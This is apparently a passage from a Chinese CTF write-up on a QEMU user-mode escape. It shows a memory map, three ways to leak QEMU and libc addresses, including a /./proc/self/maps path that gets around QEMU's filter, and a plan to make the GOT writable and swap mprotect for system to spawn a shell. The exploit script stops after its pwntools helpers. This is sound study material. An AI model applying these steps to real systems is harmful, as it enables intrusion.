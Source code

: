 ```bash
0x00007ffff7fb8000 0x00007ffff7fb9000 0x0000000000007000 r-- /usr/lib/x86_64-linux-gnu/librt-2.31.so
0x00007ffff7fb9000 0x00007ffff7fba000 0x0000000000008000 --- /usr/lib/x86_64-linux-gnu/librt-2.31.so
0x00007ffff7fba000 0x00007ffff7fbb000 0x0000000000008000 r-- /usr/lib/x86_64-linux-gnu/librt-2.31.so
0x00007ffff7fbb000 0x00007ffff7fbc000 0x0000000000009000 rw- /usr/lib/x86_64-linux-gnu/librt-2.31.so
0x00007ffff7fbc000 0x00007ffff7fbe000 0x0000000000000000 rw-
0x00007ffff7fcb000 0x00007ffff7fce000 0x0000000000000000 r-- [vvar]
0x00007ffff7fce000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

最上面的的几行就是 guest 程序的内存部分, 然后就是 qemu 的内存部分.  

既然在同一个地址空间中, 那么从 guest 程序中访问 qemu 内存自然也就是一件很合理的事情了. 后面就是常规的 pwn 套路了.

因为 qemu 开了随机化, 首先我们需要 leak qemu 和 libc 的地址. leak 地址方法目前知道有三个:

- 读 /./proc/self/maps文件:
  - 思路来自redbud的师傅
  - 可以拿到整个qemu 内存空间的地址, 推荐
  - 如果读 /proc/self/maps 只能读到 guest程序自己的内存空间, qemu有个过滤操作, 具体可以参考[宇轩师傅的wp](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)写的很详细.
- 读 /proc/self/syscall 来自 0ops 师傅的思路. 具体原理自行 `man proc`
  - 这个 方法我没有实践, 通过看文档中对该文件的定义觉得该方法leak的地址可能不太稳定, 不过了解一下万一哪天用得到(比如上一个方法被封了233)
- mmap 一块已经存在的内存, 系统会返回一块 libc 附近的内存, 从而 leak libc 地址
  - 来自enlx师傅的思路
  - 这种方法leak的地址和libc的偏移不同环境下可能不一样, 需要试一下.

综上, 笔者在复现的时候选择了读 /./proc/self/maps 文件的思路. 具体利用过程如下:

1. leak qemu 和 libc 地址
2. leak 完地址之后利用没有被 ban 的 mprotect syscall 将 qemu 的 got 所在的段改成 rwx.
3. 然后把 got[mprotect] 改成 system 地址.
4. 在一个地址 addr 处(该地址需要页(0x1000)对齐)写入"/bin/sh\0"
5. mprotect(addr, 0, 0)
6. PWN!

完整 exp 如下:

```python
#coding:utf-8
from pwn import *
from time import sleep
import sys

global io
ru = lambda p, x        : p.recvuntil(x)
sn = lambda p, x        : p.send(x)
rl = lambda p           : p.recvline()
sl = lambda p, x        : p.sendline(x)
rv = lambda p, x=1024   : p.recv(numb = x)
sa = lambda p, a, b     : p.sendafter(a,b)
sla = lambda p, a, b    : p.sendlineafter(a,b)
rr = lambda p, t        : p.recvrepeat(t)
rd = lambda p, x        : p.recvuntil(x, drop=True)

context(bits = 64, os = 'linux', endian = 'little')
```